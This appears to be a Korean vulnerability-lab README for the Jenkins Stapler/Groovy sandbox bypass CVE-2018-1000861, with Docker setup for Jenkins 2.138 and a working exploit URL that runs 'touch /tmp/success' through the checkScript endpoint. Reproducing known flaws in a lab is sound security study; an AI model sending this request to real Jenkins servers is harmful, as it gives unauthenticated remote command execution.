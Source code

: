 # Jenkins원격 명령 실행 취약성（CVE-2018-1000861）

Jenkins는 사용자가 URL PATH를 통해 한 번의 public 방법을 호출할 수 있도록 하는 Stapler 프레임워크를 사용하여 개발되었습니다. 이 프로세스를 제한하지 않기 때문에 공격자는 일부 민감한 Java 방법을 실행하기 위해 특수 PATH를 구성할 수 있습니다.

이 허점을 통해 우리는 이용할 수 있는 많은 이용 사슬을 찾을 수 있습니다. 가장 심각한 것은 Groovy 샌드박스를 우회하여 권한 없는 사용자가 임의 명령을 실행할 수 있게 하는 것입니다. Jenkins는 샌드박스에서 Groovy를 실행하기 전에 스크립트에 오류가 있는지 검사하고 검사 작업은 샌드박스가 없으며 공격자는 메타프로그래밍을 통해 이 단계를 검사할 때 임의 명령을 실행할 수 있습니다.




- http://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
- http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
- https://0xdf.gitlab.io/2019/02/27/playing-with-jenkins-rce-vulnerability.html


## 환경 조성
다음 명령을 실행하여 Jenkins 2.138을 시작합니다. 취약성을 포함하는 플러그인도 설치되었습니다.

```
docker compose up -d
```
![](1.png)

환경이 시작된 후 http://your-ip:8080을 방문하면 성공적으로 초기화된 Jenkins를 볼 수 있으며 더 이상 작업이 필요하지 않습니다.

![](2.png)

![](3.png)

## 빈틈이 다시 나타나기

@orangetw를 사용하여 [POC 스크립트 원터치](https://github.com/orangetw/awesome-jenkins-rce-2019)다음과 같은 요청을 보내면 성공적으로 명령을 실행할 수 있습니다.

```
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}
```



`/tmp/success`성공적으로 생성：


